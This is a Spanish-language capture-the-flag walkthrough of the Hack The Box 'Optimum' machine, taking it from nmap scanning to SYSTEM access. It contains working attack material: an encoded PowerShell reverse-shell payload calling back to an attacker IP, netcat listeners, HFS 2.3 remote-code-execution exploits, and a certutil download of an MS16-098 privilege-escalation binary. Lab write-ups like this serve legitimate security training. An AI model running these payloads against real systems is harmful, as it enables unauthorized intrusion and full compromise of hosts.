




# Optimum

`Optimum` es una máquina de nivel principiante que se centra principalmente en la enumeración de servicios con exploits conocidos. Ambos exploits son fáciles de obtener y tienen módulos Metasploit asociados, lo que hace que esta máquina sea bastante sencilla de completar.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Optimum**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.8 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 19:25 CET
Nmap scan report for 10.10.10.8
Host is up (0.037s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 101.80 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.8
	[*] Open ports: 80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos.

```bash
❯ nmap -sCV -p80 10.10.10.8 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 19:28 CET
Nmap scan report for 10.10.10.8
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   59.75 ms 10.10.16.1
2   92.11 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.54 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Initial Access

### HttpFileSirver 2.3 Exploitation - Remote Code Execution \[RCE]

Accederemos a http://10.10:10.8 y comprobaremos que se trata de `HttpFileServer 2.3`.


HTTP File Server es una herramienta simple que le permite acceder a los archivos de su teléfono desde una computadora de escritorio, tableta u otros dispositivos sin ningún software especial, solo un navegador web. Alternativamente, también actúa como un servidor WebDAV y cualquier cliente WebDAV puede acceder a él.


<figure><figcaption></figcaption></figure>

A través de la herramienta de `searchsploit`, buscaremos vulnerabilidades sobre esta versión de `HFS`. Nos encontramos con varias vulnerabilidades que nos permitirían ejecutar comandos arbitrarios en el equipo víctima.

Nos quedaremos con el exploit de `windows/remote/49584.py`, el cual copiaremos al directorio actual.

```bash
❯ searchsploit HFS 2.3
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                                                                                                                         | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                                                                         | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                                                                                                                              | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                                                                      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                                                                 | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                                                                 | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                                                            | windows/webapps/34852.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

❯ searchsploit -m windows/remote/49584.py
  Exploit: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49584
     Path: /usr/share/exploitdb/exploits/windows/remote/49584.py
    Codes: N/A
 Verified: False
File Type: ASCII text, with very long lines (546)
Copied to: /home/kali/Desktop/HackTheBox/Windows/Normal/Optimum/Optimum/content/49584.py
```

Editaremos el archivo e indicaremos nuestra dirección IP, el puerto donde estaremos en escucha. También deberemos informar el equipo víctima y el puerto donde está levantado el `HFS`.

<figure><figcaption></figcaption></figure>

Ejecutaremos el exploit, y comprobaremos que ganamos acceso al equipo víctima sin problemas.

```bash
❯ python3 49584.py

Encoded the command in base64 format...

Encoded the payload and sent a HTTP GET request to the target...

Printing some information for debugging...
lhost:  10.10.16.5
lport:  443
rhost:  10.10.10.8
rport:  80
payload:  exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANQAiACwANAA0ADMAKQA7ACAAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAIABbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7ACAAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsADAALAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAgACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAJABpACkAOwAgACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACAAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABHAGUAdAAtAEwAbwBjAGEAdABpAG8AbgApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAIAAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACAAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACAAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACAAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

Listening for connection...
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.8] 49158

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

### Rejetto HTTP File Server (HFS) 2.3.x - Remote Code Execution \[RCE] (CVE-2014-6287)

Por otro lado, también nos encontramos con el siguiente exploit que probaremos también si podemos abusar de él. Nos copiaremos el exploit de `windows/remote/39161.py` en nuestro directorio actual de trabajo.

```bash
❯ searchsploit -m windows/remote/39161.py
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
    Codes: CVE-2014-6287, OSVDB-111386
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (540)
Copied to: /home/kali/Desktop/HackTheBox/Windows/Normal/Optimum/Optimum/content/39161.py
```

Editaremos el exploit para indicar nuestra dirección IP de atacante y el puerto donde estaremos en escucha.

<figure><figcaption></figcaption></figure>

Para que funcione el exploit, deberemos de disponer del binario de `nc.exe` en nuestro equipo. Esto debido que el exploit lo que realiza es subir nuestro binario al equipo víctima y luego proporcionarnos una Reverse Shell.

Compartiremos el binario a través de un servidor web.

```bash
❯ ls -l
.rwxr-xr-x kali kali 2.4 KB Sat Jan 25 19:41:39 2025  39161.py
.rwxr-xr-x kali kali  28 KB Sat Jan 25 19:45:45 2025  nc.exe
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

En otra terminal nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos dos veces el exploit indicándole la dirección IP objetivo y el puerto en donde se encuentra el `HFS` levantado.

```bash
❯ python2 39161.py 10.10.10.8 80
❯ python2 39161.py 10.10.10.8 80
```

Verificaremos que ganamos acceso al equipo y podemos visualizar la flag de **user.txt**.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.8] 49191
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>type user.txt
type user.txt
fa8a2a0cb50*****************
```

## Privilege Escalation

### Using windows-exploit-suggester to find paths to PrivEsc&#x20;

Revisaremos la información del equipo en el cual nos encontramos. Verificamos que se trata de un `Windows Server 2012 R2 Standard`.

```powershell
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          1/2/2025, 5:15:49 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.529 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.973 MB
Virtual Memory: In Use:    530 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Nos copiaremos el contenido del `systeminfo` en nuestro equipo local en un archivo llamado `systeminfo.txt`.

A través de la herramienta de `windows-exploit-suggester`, buscaremos alguna vía potencial para escalar nuestros privilegios en base al `systeminfo`que le hemos indicado.

En el resultado obtenido, verificamos diferentes vulnerabilidades que se pueden realizar en el sistema.

```bash
❯ ls -l
.rw-rw-r-- kali kali 3.2 KB Sat Jan 25 19:47:52 2025  systeminfo.txt

❯ python2.7 /opt/windows-exploit-suggester/exploit -u
[*] initiating winsploit version 3.3...
[+] writing to file 2025-01-25-mssb.xls
[*] done

❯ python2.7 /opt/windows-exploit-suggester/exploit -d 2025-01-25-mssb.xls -i systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*] 
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*] 
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*] 
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*] 
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*] 
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*] 
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*] 
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*] 
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*] 
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

### Exploitation MS16-098 - \[RGNOBJ] Integer Overflow

Revisando los exploits y vulnerabilidades que se nos proporcionaba, nos encontramos con la siguiente `MS16-098`.

Revisando el contenido, nos encontramos con el ID del exploit, 41020.

<figure><figcaption></figcaption></figure>

Buscaremos en el repositorio de `ExploitDB` sobre el binario del exploit. Buscaremos por el ID de la vulnerabilidad y nos descargaremos el binario que nos ofrecen.



<figure><figcaption></figcaption></figure>

Revisaremos que disponemos del binario en nuestro equipo, lo renombraremos y compartiremos a través de un servidor web.

```bash
❯ ls -l 41020.exe
.rw-rw-r-- kali kali 547 KB Sat Jan 25 19:53:00 2025  41020.exe

❯ mv 41020.exe privesc.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos el binario para realizar la explotación.

```powershell
C:\Temp>certutil.exe -f -urlcache -split http://10.10.16.5/privesc.exe C:\Temp\privesc.exe
certutil.exe -f -urlcache -split http://10.10.16.5/privesc.exe C:\Temp\privesc.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D

 Directory of C:\Temp

01/02/2025  05:54 ��    <DIR>          .
01/02/2025  05:54 ��    <DIR>          ..
01/02/2025  05:54 ��           560.128 privesc.exe
               1 File(s)        560.128 bytes
               2 Dir(s)   5.672.898.560 bytes free
```

Una vez subido el binario, al ejecutarlo verificamos que nos hemos convertiro en usuario `NT AUTHORITY\SYSTEM` y visualizar la flag de **root.txt**.

```bash
C:\Temp>privesc.exe
privesc.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
whoami
nt authority\system

C:\Temp>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
14d342f16***********************
```
